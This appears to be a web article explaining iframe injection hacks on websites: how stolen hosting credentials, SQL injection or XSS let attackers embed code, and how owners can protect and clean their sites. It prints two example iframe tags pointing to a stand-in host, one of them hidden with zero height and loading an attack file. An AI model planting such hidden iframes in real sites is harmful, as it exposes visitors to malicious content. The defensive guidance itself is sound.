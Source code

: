 Below is an example of a hidden iframe code embed in a web page:
<iframe src="http://hackersite.com/attackfile.php" width=100% height=0></iframe>

Gumblar attack is an example of this type of iframe hacking.

Some iframe hackers may not cause real damage to your website or site visitors but may simply embed an iframe code to display an Ad, taking advantage of your website traffic, or may simply direct your site visitors to his own site with the objective to increase his own site's traffic with an aim to improve his own site's search engine rank. Some SEO experts may adopt this unscrupulous technique to drive traffic to their own client's websites to build traffic for their clients.

Below is an example of a visible iframe code embed that may be used to display an Ad:
<iframe src="http://hackersite.com/ad.jpg" width=200 height=150></iframe>

How do Hackers gain access to your website?

If your website is hacked it does not mean your hosting server is lacking on the security side. Most iframe hacking happens on websites whose owners are accessing their hosting account from an insecure computer. If your computer is infected with a key-logger malware, the moment you login to your website hosting account, the malware secretly passes your account login credentials to the hacker. The hacker then logs into your hosting account as a legitimate user and modifies your website html pages to embed the malicious iframe code.

Iframe code injection can also take place in a code driven website that may be using PHP/ASP for handling forms. If the handler codes are not securely designed it may allow for code injection via SQL injection. Read more about SQL injection.

How to protect your website from iframe hacking?

FTP Account: If you use FTP, you are in danger of exposing your passwords to hackers because the passwords are passed between your FTP client and your website in plain text. Use a program like WinSCP, or an FTP client that allows you to connect to your site using secure SFTP or SCP. Both of these methods encrypt your user name and password, making it much more difficult for a hacker to discover them, even if they intercept them with some sort of packet sniffer.

Hosting Control Panel: Whenever you log into your hosting control panel always use a secure SSL port to login. Keep your passwords difficult to guess. Use a password generator to generate your passwords. Never use the same password to log into different sites or control panels. Change your passwords more frequently.

Infected Computer: If you personal computer system is infected with Virus/Trojan/Spyware then there is a chance that the hacker gained access to your login credentials when you logged into your website hosting account. It is advisable to install a good anti-virus software on your computer and keep it always updated.

XSS (Cross Site Scripting) vulnerability in your website: If your site has XSS vulnerability then there is a high risk for such type of hacking.

SQL Injection: If your site is not designed to prevent SQL injection then hacker can easily get to access your database and insert malicious code.

What to do if your website has been attacked with iframe hacking?

    Immediately gain access to a secure computer and login to your hosting account control panel from there. Change your hosting control panel password as well as all your ftp passwords.
    Download your entire website files in the local computer. Open each and every web page file in a text editor (image files are not affected) and check for presence of any code snippet that should not have been there, and remove it. Only scanning for presence of <iframe> tag will not help, as some hackers resort to code obfuscation and embed obfuscated code.
    After you have ensured that all your website files are now clean, delete all files on the server and upload the cleaned files from your local computer.
    Also, inform your hosting provider that your website was iframe hacked so that they can do necessary checks from their end too.
    Clean the infected computer that you had been using earlier to access your hosting account. It would be better to re-format the entire hard disk and then install a good anti-virus software, so that you are protected in future.
    Never login to your hosting account from an untrusted computer.

